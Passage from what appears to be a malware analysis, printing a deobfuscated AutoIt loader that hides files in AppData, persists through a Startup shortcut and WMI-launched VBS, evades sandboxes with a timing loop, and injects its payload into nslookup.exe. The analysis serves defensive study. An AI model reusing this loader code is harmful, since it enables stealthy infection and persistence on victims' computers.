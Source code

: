 <h4>The next following block of code allocates the semaphore, creates the shortcuts, prepares the files and paths and run the final payload in memory in pushing the anti-sandbox measures for protect the to launch it on analysis environment.</h4>

```autoit
$Jvar = DllCall(DllOpen("kernel32.dll"), "handle", "CreateSemaphoreA", "ptr", Null, "long", 1, "long", 1, "str", "JYdpMxmnJaadw")
$CodeError = DllCall("kernel32.dll", "long", "GetLastError")[0]
If $CodeError == 183 Then
$Pfile = FileOpen(@ScriptDir & '\' & 'QFfIDvIPtTOu.com',16)
$RData = FileRead($Pfile)
If (Ping("JYdpMxmnJaadw.JYdpMxmnJaadw", 1000) <> 0) Then Exit
$PathDomain = @AppDataDir & "\cousl\cousl.com"
$PathAutoitScript = @AppDataDir & "\cousl\AVnixWG"
$PathVBSFile = @AppDataDir & "\cousl\uRnvGvuBvJe.vbs"
$PathBinaryData = @AppDataDir & "\cousl\QFfIDvIPtTOu.com"
If Not FileExists($PathDomain) Then
	If DirGetSize(@AppDataDir & "\cousl") < 0 Then
	DirCreate(@AppDataDir & "\cousl")
	EndIf
	FileWrite(FileOpen($PathAutoitScript,2), FileRead(@ScriptFullPath))
	FileDelete(@ScriptFullPath)
	FileWrite(FileOpen($PathDomain,2), FileRead(FileOpen(@AutoItExe,16)))
	FileWrite(FileOpen($PathBinaryData,2), FileRead(FileOpen("SHhKFxKRvVQw0eqo"),16)))
	FileDelete("SHhKFxKRvVQw0eqo"))
	FileWrite(FileOpen($PathVBSFile,2), "pUCkyGzHUI = GetObject(" & ChrW(34) & "winmgmts:\\.\root\cimv2:Win32_Process" & ChrW(34) & ").Create(" & ChrW(34) & $PathDomain & " " & $PathAutoitScript & ChrW(34) & " , " & ChrW(34) & @AppDataDir & "\cousl" & ChrW(34) & ", Null, WuUbkJJqxFQ )")
	FileSetAttrib(@AppDataDir & "\cousl", "+SH", 1)
	If Not FileExists(@StartupDir & "\cousl.url") Then
		FileWrite(FileOpen(@StartupDir & "\cousl.url",34), "[InternetShortcut]" & @CRLF & "URL=" & ChrW(34) & $PathVBSFile & ChrW(34))
	Else
		FileDelete(@StartupDir & "\cousl.url")
		FileWrite(FileOpen(@StartupDir & "\cousl.url",34), "[InternetShortcut]" & @CRLF & "URL=" & ChrW(34) & $PathVBSFile & ChrW(34))
	EndIf
EndIf
$time2Num = 0
Antisandbox_by_diff_time(8391)
For $j = 0 To 29984739
	$time2Num = $time2Num + 1
Next
If Not ($time2Num == 29984740) Then Exit
$Path_PE = @SystemDir & "\" & "nslookup.exe"
Global $Jvar = AllocatePayload(Init_Struct(Binary($RData), Binary("7914561")), $ArgCmdline, $Path_PE)
WinWaitClose(1)
Else
Run(@AutoItExe & " " & $CmdLineRaw)
Antisandbox_by_diff_time(500)
```
